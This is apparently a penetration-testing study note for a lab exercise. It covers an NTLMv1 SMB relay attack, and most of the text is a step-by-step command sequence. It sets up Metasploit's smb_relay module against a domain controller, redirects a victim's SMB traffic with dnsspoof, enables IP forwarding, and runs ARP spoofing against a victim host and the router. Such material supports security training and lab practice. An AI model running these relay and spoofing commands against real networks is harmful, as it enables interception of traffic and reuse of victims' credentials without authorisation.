



3. NTLMv1 Relay (Metasploit)
*Only work if "Network security: LAN Manager authentication level" is set to "Send LM & NTLM responses"
To do it(Windows 7): search bar → “Edit group policy” → Local Policies → Security Options
or see
here ←
To exploit the NTLMv1 protocol we are going to use the module
https://www.rapid7.com/db/modules/exploit/windows/smb/smb_relay(exploit/windows/smb/smb_relay)
Worth noting though that
this module only supports NTLMv1Analyze with Wireshark the Network and observe that 172.16.5.30 issues a SMB connection to any hosts on the *.sportsfoo.com domain
 Attack Schematized Exploit:
service postgresql start
msfdb init
msfconsole
use exploit/windows/smb/smb_relay
show options
set SMBHOST <Server_IP> #Domain Controller
set LHOST <Attacker_Interface_IP>
set SRVHOST <Attacker_Interface_IP>
run
Configure dnsspoof
configure dnsspoof in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain: sportsfoo.com
echo "172.16.5.150 *.sportsfoo.com" > dns.txt
dnsspoof -i tap0 -f dns.txt
.... after some time ...
Activate the MiTM attack using the ARP Spoofing technique (To understand it check chapter
ARP Cache Poisoning)
Enable IP forwarding on the attacker machine
echo 1 > /proc/sys/net/ipv4/ip_forward
Note that the 172.16.50.10 is not the name server, in fact there are no DNS queries to 172.16.5.10, the name server is outside the network. Because of that we need to use 172.16.5.1 that is the address of the router
In two separated terminals, start the ARP Spoof attack against 172.16.5.30 and respectively 172.16.5.1 using these commands:
arpspoof -i tap0 -t 172.16.5.30 172.16.5.1
arpspoof -i tap0 -t 172.16.5.1 172.16.5.30
Bibliography:
https://ivanitlearning.wordpress.com/2018/11/22/dns-enumeration-smb-relay/